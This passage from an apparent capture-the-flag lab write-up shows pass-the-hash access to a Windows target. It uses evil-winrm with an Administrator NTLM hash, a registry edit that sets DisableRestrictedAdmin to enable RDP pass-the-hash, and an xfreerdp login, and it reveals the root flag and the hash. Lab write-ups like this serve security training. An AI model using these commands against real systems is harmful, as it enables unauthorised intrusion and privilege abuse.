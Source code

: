 - In PSRemote mode, I am limited, and I cannot read the flag.

```bash
evil-winrm -i 10.10.132.117 -u 'Administrator'  -H 15db914be1e6a896e7692f608a9d72ef
```

```bash
└─# evil-winrm -i 10.10.132.117 -u 'Administrator'  -H 15db914be1e6a896e7692f608a9d72ef
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
*Evil-WinRM* PS C:\Users\Administrator\Desktop> more root.txt
VL{1ffd4561083a1bdbb4e15346ba7aaf31}
```

Note that if you are unable to read the flag due to a restriction, try connecting graphically with this command

```bash
└─# xfreerdp /u:Administrator /pth:15db914be1e6a896e7692f608a9d72ef /v:10.10.132.117 /cert-ignore /bpp:8 /network:modem /compression -themes -wallpaper /clipboard /audio-mode:1 /auto-reconnect
```

Administrator : `15db914be1e6a896e7692f608a9d72ef`